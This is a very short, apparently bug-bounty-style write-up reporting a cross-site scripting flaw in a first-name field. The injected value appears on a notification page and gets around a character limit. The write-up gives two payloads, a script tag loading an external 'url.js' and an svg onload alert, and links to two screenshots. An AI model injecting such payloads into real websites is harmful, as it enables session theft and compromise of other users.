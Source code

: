 # -hack1chall
XSS in frist name on page notification bypass limit character

`<script src=url.js/>` 
`<svg onload=alert(1) />` 


![1](/Screenshot_2020-11-12%20Your%20tournaments%20-%20Challonge.png)
![2](/Screenshot_2020-11-12_08-35-57.png)
